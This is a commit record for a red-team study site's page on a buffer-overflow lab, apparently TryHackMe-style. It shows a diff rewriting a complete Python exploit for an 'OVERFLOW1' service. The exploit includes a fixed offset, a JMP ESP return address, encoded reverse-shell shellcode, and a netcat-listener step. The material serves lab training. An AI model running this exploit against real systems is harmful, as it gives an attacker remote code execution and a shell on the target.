

Before and after one commit to tymyrddin/red-bo, a Sphinx documentation site: the page built from source/docs/prep/overflow1.md, in a window 1280 px wide and 1400 px high, scrolled down 6649 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Getting started

````diff
--- a/source/docs/prep/overflow1.md
+++ b/source/docs/prep/overflow1.md
@@ -87,7 +87,7 @@ Edit the python payload below and add the cyclic pattern to the payload variable
 ```text
 import socket
 
-ip = "10.10.129.182"
+ip = "KALI_IP"
 port = 1337
 
 prefix = "OVERFLOW1 "
@@ -284,67 +284,54 @@ With the correct prefix, offset, return address, padding, and payload set, explo
 reverse shell.
 
 ```text
+#!/usr/bin/env python3
 import socket
-import sys
-import time
 
+ip = "10.10.241.243"
+port = 1337
 
-print("[+]  Shell at 4444...\n")
+prefix = "OVERFLOW1 "
+offset = 1978
+overflow = "A" * offset
+retn = "\xaf\x11\x50\x62" # overwriting the return pointer with the memory address of a valid jmp esp instruction
+padding = "\x83\xec\x10" # Moving the ESP pointer "up" the stack by 16 bytes to make room for the encoder operations
+payload = ("\xda\xd5\xba\xdb\x9b\x35\xe7\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"
+"\x52\x31\x55\x17\x03\x55\x17\x83\x36\x67\xd7\x12\x34\x70\x9a"
+"\xdd\xc4\x81\xfb\x54\x21\xb0\x3b\x02\x22\xe3\x8b\x40\x66\x08"
+"\x67\x04\x92\x9b\x05\x81\x95\x2c\xa3\xf7\x98\xad\x98\xc4\xbb"
+"\x2d\xe3\x18\x1b\x0f\x2c\x6d\x5a\x48\x51\x9c\x0e\x01\x1d\x33"
+"\xbe\x26\x6b\x88\x35\x74\x7d\x88\xaa\xcd\x7c\xb9\x7d\x45\x27"
+"\x19\x7c\x8a\x53\x10\x66\xcf\x5e\xea\x1d\x3b\x14\xed\xf7\x75"
+"\xd5\x42\x36\xba\x24\x9a\x7f\x7d\xd7\xe9\x89\x7d\x6a\xea\x4e"
+"\xff\xb0\x7f\x54\xa7\x33\x27\xb0\x59\x97\xbe\x33\x55\x5c\xb4"
+"\x1b\x7a\x63\x19\x10\x86\xe8\x9c\xf6\x0e\xaa\xba\xd2\x4b\x68"
+"\xa2\x43\x36\xdf\xdb\x93\x99\x80\x79\xd8\x34\xd4\xf3\x83\x50"
+"\x19\x3e\x3b\xa1\x35\x49\x48\x93\x9a\xe1\xc6\x9f\x53\x2c\x11"
+"\xdf\x49\x88\x8d\x1e\x72\xe9\x84\xe4\x26\xb9\xbe\xcd\x46\x52"
+"\x3e\xf1\x92\xf5\x6e\x5d\x4d\xb6\xde\x1d\x3d\x5e\x34\x92\x62"
+"\x7e\x37\x78\x0b\x15\xc2\xeb\x3e\xf8\x94\x2a\x56\xfe\x24\xac"
+"\x1c\x77\xc2\xc4\x72\xde\x5d\x71\xea\x7b\x15\xe0\xf3\x51\x50"
+"\x22\x7f\x56\xa5\xed\x88\x13\xb5\x9a\x78\x6e\xe7\x0d\x86\x44"
+"\x8f\xd2\x15\x03\x4f\x9c\x05\x9c\x18\xc9\xf8\xd5\xcc\xe7\xa3"
+"\x4f\xf2\xf5\x32\xb7\xb6\x21\x87\x36\x37\xa7\xb3\x1c\x27\x71"
+"\x3b\x19\x13\x2d\x6a\xf7\xcd\x8b\xc4\xb9\xa7\x45\xba\x13\x2f"
+"\x13\xf0\xa3\x29\x1c\xdd\x55\xd5\xad\x88\x23\xea\x02\x5d\xa4"
+"\x93\x7e\xfd\x4b\x4e\x3b\x1d\xae\x5a\x36\xb6\x77\x0f\xfb\xdb"
+"\x87\xfa\x38\xe2\x0b\x0e\xc1\x11\x13\x7b\xc4\x5e\x93\x90\xb4"
+"\xcf\x76\x96\x6b\xef\x52")
+postfix = ""
 
-buff = "A" * 1978
-eip = "\xaf\x11\x50\x62" #0x625011AF JMP ESP pointer address
-
-nops = "\x90" * 20
-
-shellcode =  b""
-shellcode += b"\xba\xad\x13\xdd\x9f\xda\xcd\xd9\x74\x24\xf4"
-shellcode += b"\x58\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x0e"
-shellcode += b"\x03\xfd\x1d\x3f\x6a\x01\xc9\x3d\x95\xf9\x0a"
-shellcode += b"\x22\x1f\x1c\x3b\x62\x7b\x55\x6c\x52\x0f\x3b"
-shellcode += b"\x81\x19\x5d\xaf\x12\x6f\x4a\xc0\x93\xda\xac"
-shellcode += b"\xef\x24\x76\x8c\x6e\xa7\x85\xc1\x50\x96\x45"
-shellcode += b"\x14\x91\xdf\xb8\xd5\xc3\x88\xb7\x48\xf3\xbd"
-shellcode += b"\x82\x50\x78\x8d\x03\xd1\x9d\x46\x25\xf0\x30"
-shellcode += b"\xdc\x7c\xd2\xb3\x31\xf5\x5b\xab\x56\x30\x15"
-shellcode += b"\x40\xac\xce\xa4\x80\xfc\x2f\x0a\xed\x30\xc2"
-shellcode += b"\x52\x2a\xf6\x3d\x21\x42\x04\xc3\x32\x91\x76"
-shellcode += b"\x1f\xb6\x01\xd0\xd4\x60\xed\xe0\x39\xf6\x66"
-shellcode += b"\xee\xf6\x7c\x20\xf3\x09\x50\x5b\x0f\x81\x57"
-shellcode += b"\x8b\x99\xd1\x73\x0f\xc1\x82\x1a\x16\xaf\x65"
-shellcode += b"\x22\x48\x10\xd9\x86\x03\xbd\x0e\xbb\x4e\xaa"
-shellcode += b"\xe3\xf6\x70\x2a\x6c\x80\x03\x18\x33\x3a\x8b"
-shellcode += b"\x10\xbc\xe4\x4c\x56\x97\x51\xc2\xa9\x18\xa2"
-shellcode += b"\xcb\x6d\x4c\xf2\x63\x47\xed\x99\x73\x68\x38"
-shellcode += b"\x0d\x23\xc6\x93\xee\x93\xa6\x43\x87\xf9\x28"
-shellcode += b"\xbb\xb7\x02\xe3\xd4\x52\xf9\x64\xd1\xb3\x0f"
-shellcode += b"\xf9\x8d\xb1\x0f\x10\x12\x3f\xe9\x78\xba\x69"
-shellcode += b"\xa2\x14\x23\x30\x38\x84\xac\xee\x45\x86\x27"
-shellcode += b"\x1d\xba\x49\xc0\x68\xa8\x3e\x20\x27\x92\xe9"
-shellcode += b"\x3f\x9d\xba\x76\xad\x7a\x3a\xf0\xce\xd4\x6d"
-shellcode += b"\x55\x20\x2d\xfb\x4b\x1b\x87\x19\x96\xfd\xe0"
-shellcode += b"\x99\x4d\x3e\xee\x20\x03\x7a\xd4\x32\xdd\x83"
-shellcode += b"\x50\x66\xb1\xd5\x0e\xd0\x77\x8c\xe0\x8a\x21"
-shellcode += b"\x63\xab\x5a\xb7\x4f\x6c\x1c\xb8\x85\x1a\xc0"
-shellcode += b"\x09\x70\x5b\xff\xa6\x14\x6b\x78\xdb\x84\x94"
-shellcode += b"\x53\x5f\xa4\x76\x71\xaa\x4d\x2f\x10\x17\x10"
-shellcode += b"\xd0\xcf\x54\x2d\x53\xe5\x24\xca\x4b\x8c\x21"
-shellcode += b"\x96\xcb\x7d\x58\x87\xb9\x81\xcf\xa8\xeb"
-
-payload = buff + eip + nops + shellcode
+buffer = prefix + overflow + retn + padding + payload + postfix
 
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
-# Connect to the Application
-s.connect(('KALI_IP', 1337))
-s.recv(1024)
-
-
-# PASS
-s.send('OVERFLOW1 ' + payload + '\r\n')
-s.send('EXIT\r\n')
-s.close()
-
-print("\nExploited.\n")
+try:
+	s.connect((ip, port))
+	print("[+] Sending evil buffer")
+	s.send(bytes(buffer + "\r\n", "latin-1"))
+	print("[+] Done!")
+except:
+	print("[-] Could not connect.")
 ```
 
 Start a netcat listener on the Kali box using the LPORT specified in the `msfvenom` command (`4444`).
````
Also changed, not shown: source/docs/prep/overflow2.md (+54 -0 lines).
